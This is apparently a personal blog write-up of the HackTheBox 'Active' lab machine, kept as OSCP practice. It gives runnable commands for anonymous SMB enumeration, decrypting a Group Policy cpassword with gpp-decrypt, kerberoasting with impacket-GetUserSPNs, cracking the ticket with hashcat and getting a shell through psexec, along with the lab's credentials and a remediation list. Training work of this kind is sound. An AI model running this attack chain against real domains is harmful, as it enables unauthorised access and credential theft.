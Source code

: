 ```yaml
---
layout: writeup
title: Active - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Active Box from HackTheBox
image: # /assets/images/Active/Active.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, Windows]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Active, and it is rated Easy by HackTheBox. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```

Looks like we have a domain controller. First things first, I check smbclient to see if I can get access any shares without authentication, and it looks like I can list them at least. `smbclient -L \\\\10.10.10.100\\ -N`:

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Replication     Disk      
SYSVOL          Disk      Logon server share 
Users           Disk      
```

I can't access Users. I can access Replication, but it doesn't seem to have anything interesting in it. I can't access rpcclient, see anything interesting with unauthenticated enum4linux, or use ldapsearch. Smbmap confirms I can only access the Replication share and only with Read permissions. I check impacket for kerberoastable or asreproastable users, but no dice. I start responder and prepare to dive back into the Replication share and wisely so. I find a file called Groups.xml with this content:

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Note in particular the `name="active.htb\SVC_TGS"` and `cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`. Could it be a clue? Initially I can't figure out the hash type with nth or crackstation, so I just google "cpassword Groups.xml" and find that it can be decrypted with `gpp-decrypt` to give me a password of `GPPstillStandingStrong2k18`. 

After checking a few things, I find that I am able to now access the Users share through smb. I see that I can grab the user.txt flag, but I don't see anything else interesting here. 

I also access rpcclient and enumdomusers to find only these users:
```
Administrator
Guest
krbtgt
SVC_TGS
```

At this point I decided to try a few different impacket options including asreproasting and kerberoasting. I am able to pull a hash for the Administrator user using impacket `impacket-GetUserSPNs active.htb/'svc_tgs':'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request`:

![Active2.png](/assets/images/Active/Active2.png){: .center-aligned width="600px"}

It takes a while but eventually it cracks through `hashcat -m 13100 Administrator.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` which gives us: `Administrator:Ticketmaster1968`

After that I simply use impacket-psexec to get a shell on the machine and grab the flags. 

![Active3.png](/assets/images/Active/Active3.png){: .center-aligned width="600px"}

### Lessons Learned
This was a relatively simple box. I was briefly unsure how to deal with the GPP password, but it was cracked relatively easily with hashcat and `gpp-decrypt`. 

### Remediation Steps
- Don't allow the Replication share to be accessed without authentication. 
- If possible remove the hardcoded password from `Groups.xml` or remove it from the share. 
- Enforce stronger password policies as both passwords were cracked easily. 
- The Administrator password was accessible remotely through `GetUserSPNs`. Access to pull them should be restricted based on the principle of least privilege, so that should maybe be removed from the SVC_TGS user. 
- Avoid using privileged accounts for users requiring SPNs. 